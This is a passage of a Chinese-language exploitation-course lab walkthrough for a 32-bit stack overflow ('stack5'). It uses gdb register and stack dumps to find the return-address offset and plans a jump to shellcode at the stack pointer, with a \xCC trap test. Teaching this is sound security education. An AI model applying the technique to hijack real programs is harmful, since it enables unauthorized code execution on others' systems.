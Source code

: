 首先我們同樣輸入 `AAAABBBBCCCCDDDDEEEEFFFFGGGGHHHHIIIIJJJJKKKKLLLLMMMMNNNNOOOOPPPPQQQQRRRRSSSSTTTTUUUUVVVVWWWWXXXXYYYYZZZZ`，在 `main+22` 的地方下一個中斷點，接著執行
```
[----------------------------------registers-----------------------------------]
EAX: 0xffffccd0 ("AAAABBBBCCCCDDDDEEEEFFFFGGGGHHHHIIIIJJJJKKKKLLLLMMMMOOOOPPPPQQQQRRRRSSSSTTTTUUUUVVVVWWWWXXXXYYYYZZZZ")
EBX: 0xf7e2a000 --> 0x229dac 
ECX: 0xf7e2b9c0 --> 0x0 
EDX: 0x1 
ESI: 0xffffcdd4 --> 0xffffcff0 ("/home/ubuntu/Desktop/workspace/PWN_Lec/Lec1/Lab/test/stack5")
EDI: 0xf7ffcb80 --> 0x0 
EBP: 0x54545454 ('TTTT')
ESP: 0xffffcd1c ("UUUUVVVVWWWWXXXXYYYYZZZZ")
EIP: 0x80483da (<main+22>:      ret)
EFLAGS: 0x246 (carry PARITY adjust ZERO sign trap INTERRUPT direction overflow)
```
發現到 `ebp` 的值變成 `TTTT`，因此，我們知道 padding 為 `AAAABBBBCCCCDDDDEEEEFFFFGGGGHHHHIIIIJJJJKKKKLLLLMMMMNNNNOOOOPPPPQQQQRRRR` + `ebp` + `eip (return address)`。接著我們要思考，這裡沒有了 `func` 提供給我們進行跳轉，那麼 `eip` 要放入什麼值？我們會放入 shellcode 開始的記憶體地址，那麼現在 shellcode 的記憶體地址為何？

我們查看目前 `gdb` 暫存器以及 stack 情況
```
[----------------------------------registers-----------------------------------]
EAX: 0xffffccd0 ("AAAABBBBCCCCDDDDEEEEFFFFGGGGHHHHIIIIJJJJKKKKLLLLMMMMOOOOPPPPQQQQRRRRSSSSTTTTUUUUVVVVWWWWXXXXYYYYZZZZ")
EBX: 0xf7e2a000 --> 0x229dac 
ECX: 0xf7e2b9c0 --> 0x0 
EDX: 0x1 
ESI: 0xffffcdd4 --> 0xffffcff0 ("/home/ubuntu/Desktop/workspace/PWN_Lec/Lec1/Lab/test/stack5")
EDI: 0xf7ffcb80 --> 0x0 
EBP: 0x54545454 ('TTTT')
ESP: 0xffffcd20 ("VVVVWWWWXXXXYYYYZZZZ")
EIP: 0x55555555 ('UUUU')
EFLAGS: 0x10246 (carry PARITY adjust ZERO sign trap INTERRUPT direction overflow)
[-------------------------------------code-------------------------------------]
Invalid $PC address: 0x55555555
[------------------------------------stack-------------------------------------]
0000| 0xffffcd20 ("VVVVWWWWXXXXYYYYZZZZ")
0004| 0xffffcd24 ("WWWWXXXXYYYYZZZZ")
0008| 0xffffcd28 ("XXXXYYYYZZZZ")
0012| 0xffffcd2c ("YYYYZZZZ")
0016| 0xffffcd30 ("ZZZZ")
0020| 0xffffcd34 --> 0x8048300 (<__libc_start_main@plt+8>:      add    BYTE PTR [eax],al)
0024| 0xffffcd38 --> 0x1 
0028| 0xffffcd3c --> 0xffffcdd4 --> 0xffffcff0 ("/home/ubuntu/Desktop/workspace/PWN_Lec/Lec1/Lab/test/stack5")
[------------------------------------------------------------------------------]
```
首先出現了 `Invalid $PC address: 0x55555555`，這個記憶體就是我們接下來要 return address 的位置，我們知道他位於 Stack Frame 下方 8 個 bytes，也就是 `ebp` 的值，接著我們看到 stack 區域，我們發現到 stack 區域也被我們進行覆蓋了，而覆蓋的位置正式 `esp` 所指向的位置，因此這邊如果我們將 return address 設置為 `esp` 所在的位置，接著我們跳轉執行的程式碼，便會是畫面中 `VVVVWWWW...` 的部份了，因此，我們選擇將 `eip` 設定為程式執行後 `esp` 所在位置。

我們跳轉到 `esp` 位置後，就可以決定我們要執行的程式碼內容，也就是 Shellcode，我們可以使用 `\xCC` 這個機器指令，背後代表 Trap (Exception) 來測試，如果成功，則作業系統會發出 Trap 的 Signal，我們在 gdb 中進行測試
